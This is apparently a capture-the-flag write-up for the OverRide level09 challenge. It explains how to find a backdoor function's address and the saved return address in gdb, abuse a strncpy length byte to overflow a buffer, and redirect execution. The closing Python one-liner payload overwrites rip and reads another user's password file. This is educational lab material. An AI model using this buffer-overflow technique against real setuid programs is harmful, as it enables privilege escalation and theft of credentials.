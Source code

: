 ### step 1: Decompile with Ghydra

- Binary in 64-bits

```
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

- Sources are available in `source.c`


### step 2: Code Analysis

- the `main` function calls a `handle_msg`function
- the `handle_msg`function has a buffer `ref [140]` that is passed to two functions `set_username` and `set_msg`
- finally we have a `secret_backdoor` function which prompts for and input which is then given has an argument of a `system` call. We wan't to modifiy the rip (not eip because the binary is in 64-bits) of `handle_msg` function to point to the `secret_backdoor` function and then cat the .pass file with the call of the function `system`

### step 3: Find the adresses

1) `secret_backdoor` function address
```
gdb level09
info functions
```
- `secret_backdoor` function address : `0x000055555555488c`

2) rip address of `handle_msg` function

```
gdb level09
b handle_msg
 r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x5555555548c4 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
```
- rip of `handle_msg` function : `0x7fffffffe5c8`

3) `ref` start of buffer address

Set breakpoint before the call of set_msg or set_username in handle_msg because the ref is passed as an argument to these functions so we can find the address in rax

```
gdb level09
start
disas handle_msg
b *0x0000555555554910
c
(gdb) x $rax
0x7fffffffe500:	0x0000000a
```
- `ref`begin address :`0x7fffffffe500`

### Step 4 : Find the offset between ref and rip

- You can find a schema at `/level09/Ressources/Schema.png` which can help to understand the offsets

- the offset between ref and rip address is :
`0x7fffffffe5c8 - 0x7fffffffe500 = 200`

- When analysing decompiled code :
  `set_username` function is writing first input from `ref + 140 to ref + 181`
  `set_msg` function is writing second input from `ref to ref + 180`


### Step 5 : Exploit 

- To overwrite the rip of the `handle_msg` function we need to at `ref + 200`
- How to write more than 180 chars :

```c
strncpy(ref,(char *)buffer,(long)*(int *)(ref + 180));
```

The size of `strncpy` is calculated at the address `ref + 180` : We can input a tricky value with the char `\xff` that is evaluated as 255 -> The `strncpy` will copy up to 255 of our input and we will reach the 200 bytes offset of the `RIP`  

Now we gather all the informations we have to create the exploit :

0x000055555555488c to little endian : \x8c\x48\x55\x55\x55\x55\x00\x00

final string : 

```
(python -c 'print("a" * 40 + "\xFF")' ; python -c 'print(200 * "b" + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; echo 'cat /home/users/end/.pass') | ./level09
```
And we get the flag !